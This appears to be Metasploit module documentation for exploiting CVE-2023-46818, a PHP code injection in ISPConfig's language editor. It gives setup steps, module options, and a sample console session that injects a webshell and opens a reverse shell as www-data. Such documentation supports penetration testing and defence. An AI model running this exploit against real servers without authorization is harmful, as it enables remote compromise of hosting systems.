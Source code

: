 ## Vulnerable Application

ISPConfig before 3.2.11p1 is vulnerable to PHP code injection via the language file editor (language_edit.php) if the `admin_allow_langedit` option is enabled. An authenticated administrator can inject arbitrary PHP code, leading to remote code execution on the server.

- Vendor Advisory: https://www.ispconfig.org/
- CVE: [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- PoC/Details: [https://github.com/SyFi/CVE-2023-46818](https://github.com/SyFi/CVE-2023-46818)
- Exploit writeup: [https://karmainsecurity.com/KIS-2023-13](https://karmainsecurity.com/KIS-2023-13)

### Setup Example

1. Download and install ISPConfig (vulnerable version, e.g., 3.2.11 or earlier)
2. Enable `admin_allow_langedit` in the ISPConfig configuration.
3. Create an admin user for testing.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/ispconfig_lang_edit_php_code_injection`
3. Set the `RHOSTS`, `USERNAME`, and `PASSWORD` options
4. Set `TARGETURI` if ISPConfig is not at the web root
5. Run the module
6. You should get a Meterpreter or command shell session as the web server user.

## Options

### USERNAME
The ISPConfig administrator username to authenticate with.

### PASSWORD
The ISPConfig administrator password to authenticate with.

### TARGETURI
The base path to ISPConfig (default: `/`).

### LOGIN_TIMEOUT
Timeout for login request (default: 15 seconds).

### DELETE_SHELL
Whether to delete the webshell after exploitation (default: true).

## Scenarios

### ISPConfig 3.2.11 (or earlier), Ubuntu 20.04

```
msf6 > use exploit/linux/http/ispconfig_lang_edit_php_code_injection
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set rhosts 192.168.1.100
rhosts => 192.168.1.100
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set username admin
username => admin
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set password adminpass
password => adminpass
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > run

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] ISPConfig installation detected
[*] Attempting login with username 'admin' and password 'adminpass'
[+] Login successful!
[*] Injecting PHP shell...
[+] CSRF tokens extracted: ID=abc123..., KEY=def456...
[+] Shell successfully injected: sh_xxxxx.php
[*] Starting payload handler...
[+] PHP payload triggered
[*] Waiting for session...
[+] Shell responsive: uid=33(www-data) gid=33(www-data) groups=33(www-data)

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

## Notes
- The module requires valid ISPConfig admin credentials and the `admin_allow_langedit` option enabled.
- The shell is removed after exploitation if `DELETE_SHELL` is true.
- The exploit drops a PHP webshell and triggers the payload for Meterpreter or command shell access. 